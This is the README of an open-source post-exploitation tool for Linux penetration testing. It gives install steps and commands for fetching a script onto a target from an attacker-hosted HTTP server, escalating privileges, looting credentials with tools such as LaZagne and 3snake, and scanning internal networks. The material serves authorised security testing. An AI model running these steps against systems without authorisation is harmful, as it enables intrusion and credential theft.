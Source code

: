 # Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_lisp.git
```
## FIRST UPDATE THE TOOL
```
chmod +x update.sh
./update.sh
```
If hosted from Windows, convert the line endings of the script file from Windows-style (CRLF) to Unix-style (LF):
```
dos2unix tools/les.sh tools/linpeas.sh lisp.sh update.sh
```
Using VScode:
```
1. Open the script file in Visual Studio Code.
2. Look at the bottom right corner of the editor. You should see a label that displays the current line endings used in the file. It should either say "CRLF" or "LF".
3. Click on the label and select "LF". This will change the line endings of the file to Unix-style.
4. Save the file by going to File > Save.
```
# Usage
## ON THE HOST MACHINE
```bash
cd crimson_lisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE 
### 1. DOWNLOAD THE TOOLS
```bash
curl -s -k http://127.0.0.1/lisp.sh -o lisp.sh; chmod +x lisp.sh
./lisp.sh -u "http://127.0.0.1/"
```
### 2. ESCALATE THE PRIVILEGES
```bash
./lisp.sh -e
```
### 3. LOOT THE SYSTEM
```bash
sudo ./lisp.sh -l
```
### 4. NETWORK DISCOVERY (as root)
#### 4.1. PING SWEEP
```bash
./nping INTERNAL_IP/24
```
#### 4.2. NMAP SCAN
```bash
./run-nmap.sh -Pn INTERNAL_IP -p- --append-output -oA all_ports_scan
```
#### 4.3 TOP PORTS SCAN
```bash
./run-nmap.sh -Pn 172.22.11.1/24 --top-ports 1000 --append-output -oA AD_ports
```

# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/crimson-lisp-36d4891437d5)

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.

* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [pspy](https://github.com/DominicBreuker/pspy)
* [traitor](https://github.com/liamg/traitor)
* [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* [The LaZagne Project](https://github.com/AlessandroZ/LaZagne)
* [3snake](https://github.com/blendin/3snake)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>
